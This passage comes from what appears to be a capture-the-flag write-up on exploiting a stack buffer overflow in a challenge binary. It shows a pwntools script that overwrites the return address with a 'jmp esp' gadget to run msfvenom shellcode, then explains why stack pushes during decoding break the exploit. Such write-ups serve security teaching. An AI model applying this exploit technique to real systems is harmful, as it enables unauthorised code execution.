 ### CRAFTING OUR EXPLOIT

In order to execute our shellcode, we have to jump to our shellcode. We can do this with a **jmp esp** gadget.

We can find this gadget with ROPgadget.

![image](ROPgadget.png)

Now we can craft our exploit to place our shellcode on the stack.

By right our payload would look like this:

```py
from pwn import *

p = process('./window_of_opportunity.exe')

JMP_ESP = 0x00401257

shellcode = open('/root/shellcode', 'rb').read()

payload = b'A'*260
payload += p32(JMP_ESP)
payload += shellcode

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
p.close()
```

### DEALING WITH THE PROBLEMS

However this exploit script will not work yet.

#### Problem 1

This is because msfvenom generates an encoded shellcode that will need to push and pop values on the stack to decode itself.

If we are using a **jmp esp** gadget this means that our **esp** and **eip** will be next to each other.

The pushing and popping of data from the stack will result in our shellcode being overwritten and cause it to fail.

This means that we actually have to modify our **esp** before actually running the shellcode.
